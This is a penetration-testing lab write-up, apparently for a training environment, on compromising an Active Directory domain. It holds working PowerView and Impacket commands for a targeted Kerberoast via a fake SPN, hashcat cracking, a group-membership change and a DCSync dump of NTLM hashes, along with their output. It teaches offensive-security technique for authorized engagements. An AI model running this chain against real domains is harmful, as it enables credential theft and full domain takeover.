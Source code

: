 # Active Directory Compromise

To recap, we dug through the Active Directory environment and obtained the following credential pair:

`mssqladm:DBAilfreight1!`

Digging into the BloodHound data we see that we have `GenericWrite` over the `ttimmons` user. Using this we can set a fake SPN on the `ttimmons account` and perform a targeted Kerberoasting attack. If this user is using a weak password then we can crack it and proceed onwards.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's go back to the `DEV01` machine where we had loaded PowerView. We can create a PSCredential object to be able to run commands as the `mssqladm` user without having to RDP again.

```powershell
PS C:\DotNetNuke\Portals\0> $SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force
PS C:\DotNetNuke\Portals\0> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)
```

Next we'll use `Set-DomainObject` to set a fake SPN on the target account. We'll create an SPN named `acmetesting/LEGIT` which we'll of course delete later and note in the appendices of our report.

```powershell
PS C:\DotNetNuke\Portals\0> Set-DomainObject -credential $Cred -Identity ttimmons -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=ttimmons)(name=ttimmons)(displayname=ttimmons))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'acmetesting/LEGIT' for object 'ttimmons
```

Next we can go back to our attack host and use `GetUserSPNs.py` to perform a targeted Keberoasting attack.

```shell-session
$ proxychains GetUserSPNs.py -dc-ip 172.16.8.3 INLANEFREIGHT.LOCAL/mssqladm -request-user ttimmons

ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:389-<><>-OK
ServicePrincipalName  Name      MemberOf  PasswordLastSet             LastLogon  Delegation 
--------------------  --------  --------  --------------------------  ---------  ----------
acmetesting/LEGIT     ttimmons            2022-06-01 14:32:18.194423  <never>               



|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
$krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/ttimmons*$6c391145c0c6430a1025df35c3e674c4$<SNIP>
```

Next we'll fire up Hashcat and see if the user is using a weak password.

```shell-session
$ hashcat -m 13100 ttimmons_tgs /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

$krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/ttimmons*$$6c391145c0c6430a1025df35c3e674c4$<SNIP>:<PASSWORD REDACTED>
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFRE...6e6976
Time.Started.....: Wed Jun 22 16:32:27 2022 (22 secs)
Time.Estimated...: Wed Jun 22 16:32:49 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   485.7 kH/s (2.50ms) @ Accel:16 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10678272/14344385 (74.44%)
Rejected.........: 0/10678272 (0.00%)
Restore.Point....: 10672128/14344385 (74.40%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Rock4ever! -> Redeye2

Started: Wed Jun 22 16:32:24 2022
Stopped: Wed Jun 22 16:32:51 2022
```

They are! Now we have yet another credential pair, time for the ttimmons user. Let's check and see what type of access this user has. Looking in BloodHound again we see that we have `GenericAll` over the `SERVER ADMINS` group.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking a bit further we see that the `SERVER ADMINS` group has the ability to perform the DCSync attack to obtain NTLM password hashes for any users in the domain.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We use abuse this by first adding the `ttimmons` user to the group. First we'll need to create another PSCredential object.

```powershell
PS C:\htb> PS C:\DotNetNuke\Portals\0> $timpass = ConvertTo-SecureString '<PASSWORD REDACTED>' -AsPlainText -Force
PS C:\DotNetNuke\Portals\0> $timcreds = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\ttimmons', $timpass)
```

Once this is done, we can add the user to the target group and inherit the DCSync privileges.

```powershell
PS C:\DotNetNuke\Portals\0> $group = Convert-NameToSid "Server Admins"
PS C:\DotNetNuke\Portals\0> Add-DomainGroupMember -Identity $group -Members 'ttimmons' -Credential $timcreds -verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'ttimmons' to group 'S-1-5-21-2814148634-3729814499-1637837074-1622
```

Finally, we can use Secretsdump to DCSync all NTLM password hashes from the Domain Controller.

```shell-session
$ proxychains secretsdump.py ttimmons@172.16.8.3 -just-dc-ntlm

ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:49676-<><>-OK
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fd1f7e55xxxxxxxxxx787ddbb6e6afa2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b9362dfa5abf924b0d172b8c49ab58ac:::
inlanefreight.local\avazquez:1716:aad3b435b51404eeaad3b435b51404ee:762cbc5ea2edfca03767427b2f2a909f:::
inlanefreight.local\pfalcon:1717:aad3b435b51404eeaad3b435b51404ee:f8e656de86b8b13244e7c879d8177539:::
inlanefreight.local\fanthony:1718:aad3b435b51404eeaad3b435b51404ee:9827f62cf27fe221b4e89f7519a2092a:::
inlanefreight.local\wdillard:1719:aad3b435b51404eeaad3b435b51404ee:69ada25bbb693f9a85cd5f176948b0d5:::

<SNIP>
```

***

## Next Steps

After making sure to document all of our steps we could perform a number of actions, many of which are detailed in the next section. Its definitely a good idea to dump the entire NTDS database and perform offline password cracking to give the client an idea of their overall password strength and other metrics. You could also show evidence of being able to authenticate to a Domain Controller and running a few commands as this may drive the point home more than seeing secretsdump output, which they may not be familiar with. Connecting to the Domain Controller via RDP and including a screenshot to the report showing a console open with the results of the `hostname`, `whoami`, and `ipconfig /all` commands can be a great visual. There is also a lot of extra value we can add after Domain Admin by performing additional audit steps of AD, attacking domain and forest trusts (if in scope) and, finally, testing the client's alerting by either creating a new Domain Admin and Enterprise Admin or adding an account we control into each of these groups. Ideally they are monitoring these highly privileged groups and will catch this and either manually, or, even better, have something automated in place to remove the accounts from the groups. If you do this definitely include this action in the report as a configuration change in the appendices and also give the client kudos if they do detect it and action it appropriately. Giving credit for the good things you see in the network/the client does is important and goes a long way towards building good will.

